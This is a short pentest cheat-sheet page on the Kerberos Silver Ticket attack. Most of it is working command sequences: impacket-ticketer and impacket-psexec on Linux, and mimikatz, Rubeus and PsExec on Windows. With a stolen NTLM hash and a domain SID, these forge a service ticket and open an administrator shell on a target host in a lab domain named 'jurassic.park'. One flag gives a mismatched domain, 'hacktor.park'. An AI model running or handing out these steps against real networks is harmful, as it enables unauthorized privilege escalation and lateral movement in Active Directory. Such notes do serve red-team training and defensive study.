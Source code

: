 # Silver ticket

{% hint style="info" %}
The Silver ticket attack is based on crafting a valid TGS for a service once the NTLM hash of a user account is owned. Thus, it is possible to gain access to that service by forging a custom TGS with the maximum privileges inside it.

In this case, the NTLM hash of a computer account (which is kind of a user account in AD) is owned. Hence, it is possible to craft a ticket in order to get into that machine with administrator privileges through the SMB service.
{% endhint %}

{% hint style="success" %}
Create Specification  Ticket for Service&#x20;

silver (nthash + sid + username + password)
{% endhint %}

### **Linux**

{% code overflow="wrap" %}
```bash
impacket-ticketer -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain hacktor.park -spn cifs/labwws02.jurassic.park  stegosaurus

export KRB5CCNAME=/root/stegosaurus.ccache

impacket-psexec jurassic.park/stegosaurus@labwws02.jurassic.park -k -no-pass

```
{% endcode %}

Execution is similar to **PTT** attacks, but in this case the ticket is created manually. After that, as usual, it is possible to set the ticket in the **KRB5CCNAME** environment variable and use it with the _-**no**-**pass** -**k**_ parameters in any of the **impacket** examples.

### **Windows**

{% code overflow="wrap" %}
```bash
.\mimikatz.exe

privilege::debug

kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park
exit
.\Rubeus.exe ptt /ticket:ticket.kirbi
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
{% endcode %}

Additionally, the **Mimikatz** module _**kerberos**::ptt_ can be used to inject the ticket instead of using **Rubeus**, as shown in the **PTT** attack section.



